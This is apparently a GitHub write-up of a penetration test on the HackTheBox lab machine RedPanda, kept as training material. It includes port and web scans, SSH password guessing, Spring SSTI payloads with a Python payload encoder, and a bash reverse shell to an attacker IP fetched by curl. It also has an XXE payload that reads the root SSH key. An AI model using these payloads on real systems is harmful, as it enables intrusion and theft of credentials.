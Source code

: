 # RedPanda    
### A demonstration walkthrough of a pen test process using HTB's RedPanda with some normal dead ends as an example.  

#### Setup
/etc/hosts appended with "10.10.11.170 redpanda.htb"  
Firefox proxied via Zap, Zap proxied via Burp with intercept initially turned off  

Basic scan of all ports 
```
nmap -p- redpanda.htb
```
Shows ssh/22 and http/8080

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports  
```
ports=$(nmap -p- --min-rate=1000 -T4  redpanda.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports redpanda.htb
nikto -h redpanda.htb:8080
```
Interesting Results (NMAP):  
- Running OpenSSH 8.2p1 and an unknown hhtp-proxy "Made by Spring Boot" in title  
Interesting Results (NIKTO):   
- /stats/ directory discovered
- HTTP PUT and DELETE methods allowed  
- "content-disposition" header returned    

Browse for unlinked files/resources  
```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://redpanda.htb:8080/FUZZ | grep -wv 404 | grep 0000
```
POST allowed to redpanda.htb:8080/search
Confirm /stats/ responds to GET requests

**DEAD END:** Running OWASP ZAP only turned up vectors for attacking RedPanda clients.  
**DEAD END:** Browsing site showed nothing interesting in source.  
**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.  
```
echo 'root\nuser\nadmin\nadministrator\ndevelopment\ntest\nredpanda\napache\nwoodenk\ndamian' > redpanda.htb.usernames
echo 'password\nPassword\nPassw0rd\nPassw0rd!' > redpanda.htb.passwords
hydra -L redpanda.htb.usernames -P redpanda.htb.passwords -e nsr ssh://redpanda.htb
```

**DEAD END:**  Attempted various SQLi, XXE, and Command injection on search function

### SSTI
A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.  

See [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) for further information.

We are provided with a list of payloads:
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
Some of the payloads didn't work, since some of the symbols (specifically $) are blacklisted by the server.

### Creating a RCE
The nmap scan indicated the app is powered by "Spring Boot"  
Not being familar with Spring Boot, a Google found this good template [here](https://blog.hawkeyesecurity.com/2017/12/13/rce-via-spring-engine-ssti/)  
This returns /etc/passwd

Replace the blacklisted $ with *
```
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
This confirms the user "woodenk" with the standard home directory; still no password.

Python program to convert the command we want into a string suitable for SSTI in RedPanda search
```
#!/usr/bin/python3

def main():

        command = "whoami" # Edit this line for acceptable SSTI encoding 
        convert = []

        for x in command:
            convert.append(str(ord(x)))
        
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % convert[0]

        for i in convert[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"

        print(payload)

if __name__ == "__main__":
    main()
```
`command = "whoami"` confirms the website is running as user woodenk
### USER FLAG SUCCESS!
`command = "cat /home/woodenk/user.txt"` provides the user flag

### Plan for escalation
Using SSTI: 1) Upload shell script to create reverse shell.  2) Invoke shell script

Host the following shell script on the attacking machine.  I prefer:  `python -m http.server 8000`
```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.ATTACKER.IP/9001 0>&1"
```
SSTI to upload script
`command = "curl 10.10.ATTACKER.IP:8000/shell.sh --output /tmp/shell.sh"`

Create netcat listener, then invoke uploaded shell script
`nc -nvlp 9001`

SSTI to invoke script
`command = "bash /tmp/shell.sh"`

### Connected with reverse shell as woodenk
Time for some basic enumeration on panda and woodenk
```
find / -name "*panda*" 2>/dev/null
find / -name "*woodenk*" 2>/dev/null
```

This gives us a source code directory (maybe some nice config info) and user XML files in /credits  

```
cd /opt/panda_search
find . -type f -exec grep -H 'text-to-find-here' {} \;
```

This gives mysql connection info and 'woodenk' embedded in some images  

`./src/main/java/com/panda_search/htb/panda_search/MainController.java:            conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");`


Try LinPEAS to find escalation  
From github to your attacking machine (HTB machines don't resolve WWW domains)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
```
On target machine upload linPEAS
```
curl -L http://10.10.14.2:8000/linpeas.sh | sh
```
**DEAD END** nothing I saw for OS level escalation  

### MySQL dump
```
mysqldump -u woodenk -pRedPandazRule red_panda 
```
This tells us the "panda" table has four fields (name, bio, imgloc, author)

ROOT requires XXE (this is just crib notes)
Full walkthrough [here](https://shakuganz.com/2022/07/12/hackthebox-redpanda/)

XXE.1 Set the "artist" value in an attack image
```
exiftool -Artist="../tmp/gg" pe_exploit.jpg
```

XXE.2 Create `gg_creds.xml` with the following content
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
<credits>
  <author>gg</author>
  <image>
    <uri>/../../../../../../tmp/pe_exploit.jpg</uri>
    <views>1</views>
    <foo>&xxe;</foo>
  </image>
  <totalviews>2</totalviews>
</credits>
```

XXE.3 upload files and modify the redpanda.log
```
wget 10.10.ATTACKER.IP/pe_exploit.jpg -P /tmp
wget 10.10.ATTACKER.IP/gg_creds.jpg -P /tmp
echo "222||a||a||/../../../../../../tmp/pe_exploit.jpg" > /opt/panda_search/redpanda.log
```

In minute or two /tmp/gg_creds.xml is updated
```
cat /tmp/gg_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>gg</author>
  <image>
    <uri>/../../../../../../tmp/pe_exploit.jpg</uri>
    <views>2</views>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNza...cut...mVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
  </image>
  <totalviews>3</totalviews>
</credits>
```

Put the `foo` element value into a file `le_key.txt` and login as root
```
chmod 600 ./le_key.txt
ssh root@redpanda.htb -i le_key.txt
```

### ROOT SUCCESS!
